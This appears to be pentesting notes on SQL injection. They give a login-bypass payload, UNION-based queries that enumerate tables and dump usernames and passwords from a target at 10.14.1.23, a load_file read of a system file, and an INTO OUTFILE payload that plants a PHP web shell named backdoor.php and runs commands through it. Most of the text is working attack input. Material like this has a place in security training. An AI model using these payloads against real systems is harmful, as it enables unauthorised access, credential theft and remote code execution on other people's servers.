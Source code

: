 To replicate in a web application, we submit the following payload into a username field:

```text
tom' or 1=1 LIMIT 1;#
```

This should result in a authenticated session login.

#### Enumerating Databases

```text
http://10.14.1.23/test.php?id=1' - begin testing with single quote
http://10.14.1.23/test.php?id=1 order by 1 - attempt to sort by first column
```

If this is successful and we receive the name of column, we can continue to increase the number until we receive an error.  This can be performed manually or automated in BurpSuite Repeater.

Next we can extract row information using the UNION statement.

```text
http://10.14.1.23/test.php?id=1 union all select 1, 2, 3, 4
```

Depending on how the information is displayed, we can then modify our input to extract more information.  In the following example we've identified that the column three falls in a logical spot on the page.

```text
http://10.14.1.23/test.php?id=1 union all select 1, 2, @@version
http://10.14.1.23/test.php?id=1 union all select 1, 2, user()
http://10.14.1.23/test.php?id=1 union all select 1, 2, table_name from information_schema.tables
http://10.14.1.23/test.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
http://10.14.1.23/test.php?id=1 union all select 1, username, password from users
```

#### Code Execution

In some cases we can use SQL injection to read/write system files and possibly write PHP onto the system for execution.

```text
http://10.14.1.23/test.php?id=1 union all select 1, 2, load_file('C://Windows/System32/drivers/etc/hosts')
```

If this is successful we can attempt to create a malicious file on the server.

```text
http://10.14.1.23/test.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

We may then be able to access the file with a command.

```text
http://10.14.1.23/backdoor.php?cmd=id
```

If this succeeds, we can expand access by installing a full php shell on the server.
